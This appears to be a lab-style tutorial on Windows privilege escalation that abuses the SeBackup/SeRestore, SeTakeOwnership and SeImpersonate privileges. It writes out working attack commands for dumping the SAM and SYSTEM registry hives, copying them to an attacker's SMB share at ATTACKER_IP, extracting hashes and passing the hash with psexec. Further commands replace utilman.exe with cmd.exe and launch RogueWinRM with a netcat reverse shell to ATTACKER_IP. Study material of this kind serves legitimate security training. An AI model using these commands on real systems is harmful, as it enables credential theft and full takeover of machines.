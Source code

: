Privileges are rights that an account has to perform specific system-related tasks. These tasks can be as simple as the privilege to shut down the machine up to privileges to bypass some DACL-based access controls.
# Using SeBackup and SeRestore Privileges to Dump Password Hashes

We can Dump sensitive data (like SAM and SYSTEM registry hives) to extract password hashes then perform pass-the-hash to login.

Suppose we have an account with SeBackup and SeRestore Privileges, we start by saving the following registry hives

```
reg save hklm\system <location>
reg save hklm\sam <location>
```

Now we can copy files to our machine, using smb, we need to open a public share on our machine:

```bash
mkdir share
python3.9 /opt/impacket/examples/smbserver.py -smb2support -username <username> -password <password> public share
```

Then, we transfer files to our public share using the following commands:

```
copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
```

Now, we need to extract password hashes using the following command:

```bash
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```

Finally, we try to perform a Pass-the-Hash attack to access the target machine with SYSTEM privileges:

```bash
python3.9 /opt/impacket/examples/psexec.py -hashes <hash> administrator@<target-ip>
```

# Using SeTakeOwnership to Replace utilman.exe with cmd.exe

The SeTakeOwnership privilege allows you to take ownership of any file, enabling actions like replacing system executables with malicious payloads.

Suppose we have an account with SeTakeOwnership Privilege, we simply takedown the ownership of utilman.exe:

```
takeown /f C:\Windows\System32\Utilman.exe
```

Now we give full permissions to our stolen exe:

```
icacls C:\Windows\System32\Utilman.exe /grant <username>:F
```

Finally, we replace utilman.exe with cmd.exe

```
copy cmd.exe utilman.exe
```

 After this step we can simply lock the screen and click Ease of Access to get cmd.exe with SYSTEM privileges.

# Using SeImpersonate / SeAssignPrimaryToken with RogueWinRM Exploit

The SeImpersonate and SeAssignPrimaryToken privileges allow a process to impersonate other users, enabling SYSTEM-level access via exploitation tools like RogueWinRM.

Assume we have access to an IIS web shell on `http://TARGET_IP/`, and this account holds the `SeImpersonate` privilege.

First, let's start a listener on 4442:

```bash
nc -lvp 4442
```

Next we try to upload RogueWinRM Exploit to the target system.

Now, from the web shell, we run the following command to trigger the RogueWinRM exploit.

```
C:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
```

### Exploit Workflow

When the **BITS** service starts (which can be triggered by any user), it automatically makes a connection to port **5985** (the default WinRM port).

Normally, **BITS** runs under **SYSTEM** privileges, which means it can access and manage system-level resources.

If WinRM is not already running on port **5985**, an attacker can start a **RogueWinRM** service (a fake WinRM service) on the same port, this rogue service will listen for incoming connections on port **5985** and respond as if it were the legitimate WinRM service.

The **BITS** service connects to the attacker’s rogue WinRM service on port **5985** (just like it would connect to a legitimate WinRM service) and **BITS** attempts to authenticate to this rogue service with **SYSTEM** privileges, as that's the account under which it is running.

When the attacker’s rogue WinRM service receives the connection from the BITS service, it can now leverage the **SeImpersonate** privilege if the attacker has it.

Using **SeImpersonate**, the attacker can impersonate the **SYSTEM** account (the account under which BITS is running).